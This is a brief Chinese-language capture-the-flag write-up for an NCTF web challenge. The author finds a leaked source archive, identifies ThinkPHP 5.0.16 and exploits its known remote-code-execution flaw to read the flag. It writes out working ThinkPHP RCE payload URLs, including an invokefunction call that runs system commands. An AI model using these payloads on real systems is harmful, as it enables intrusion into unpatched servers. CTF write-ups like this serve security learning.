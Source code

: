NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden
![web-1.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.2.png)

发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.4.png)

tp5.0.16,这个版本的tp有rce的nday,


尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.5.png)

查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.6.png)

![web-1.7](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-1.7.png)
